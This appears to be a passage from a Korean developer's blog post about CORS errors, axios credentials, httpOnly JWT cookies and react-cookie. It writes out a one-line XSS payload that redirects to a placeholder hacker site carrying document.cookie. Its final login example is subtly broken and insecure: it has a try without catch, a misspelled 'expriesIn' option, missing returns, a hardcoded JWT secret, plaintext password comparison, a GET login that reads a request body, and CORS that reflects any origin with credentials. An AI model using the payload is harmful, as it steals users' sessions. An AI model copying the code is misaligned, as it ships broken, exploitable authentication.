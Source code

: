 - 위 코드로는 문제가 해결되지 않았다.
- `axios`의 `withCredentials` 옵션값을 끄면 에러가 발생하지 않았는데, 당연히 보안 인증 정보를 담은 통신을 하고자 한다면 옵션값을 켜야 했고 다양한 해결방법을 검색했다.
- 다양한 방법을 하나하나 넣어가며 대입한 결과 `jwt`를 만들 때, 보안 옵션으로 `httpOnly: true`를 사용하였는데, 이 옵션은 보안성을 높인 옵션으로, 사이트를 공격하고자 하는 해커가 자바스크립트를 사용해 쿠키를 가로채려 하는 **`XSS`(Cross Site Scripting)** 공격을 막기 위해 사용된다.

```js
location.href = "http://해커사이트/?cookies=" + document.cookie;
```

- 위와 같은 코드를 공개된 게시판에 작성할 시, 이 게시물을 읽은 사용자가 알아차리기도 전에 자신의 모든 쿠키를 해커에게 전송하게 된다.
- 옵션을 설정하면 브라우저에서 쿠키에 접근할 수 없도록 제한하며 위에서 말한 공격이 차단되게 된다.
- 이대로만 요청을 보내게 된다면 `Request error`가 발생하는 데, 이것을 해결하고자 서버에서 모든 응답에 대한 헤더를 열어주어야 한다.
- 위의 서버 코드에서 `Access-Control-Allow-Origin`에 대한 와이들 카드는 사용할 수 없고 `Origin`을 반드시 설정해줘야 한다.
- `cors`미들웨어에 작성할 수 있다.

```js
app.use(
  cors({
    origin: true,
    credentials: true,
  })
);
```

- 정상적으로 작동된다.

### 클라이언트의 리액트 쿠키

- 쿠키를 사용하고자 리액트 쿠키를 사용했다.
- 서버로부터 `jwt`로 만들어 전달받은 쿠키를 리액트 쿠키에 담아 사용하려 했는데, 쿠키값이 `null`로 표시되는 버그가 있었다.
- 사용자의 정보를 전역 상태로 저장하여 사용하는 방법도 있지만, 페이지가 리렌더링 될 때 `useEffect`를 사용하여 쿠키가 있는지 확인하고 서버에서 `jwt`를 사용하여 받은 쿠키에 대한 정보를 복호화해 사용하는 방법을 시도해봤다.

```js
// server
const app = express();
app.use(cors({origin: true, credentials: true}));

async function loginUser(req, res, next){
  try{
    const { id, password } = req.body;
    const user = await User.findOne({id});

    if(!user) res.status(401).send("일치하는 유저가 없습니다.");
    if(user.password !== password) res.status(401).send("비밀번호가 일치하지 않습니다.");

    const token = jwt.sign({id: user.id}, "supersecret", {expriesIn: "1h"});
    res.cookie("token", token, {httpOnly: true});
    res.status(201).send("로그인되었습니다.");
  }
}

userRouter.get("/login", loginUser);

// client
api.get("/login").then(res => {
  alert(res.data);
  setCookie(res.cookie);
  }).catch(err => ...);
```
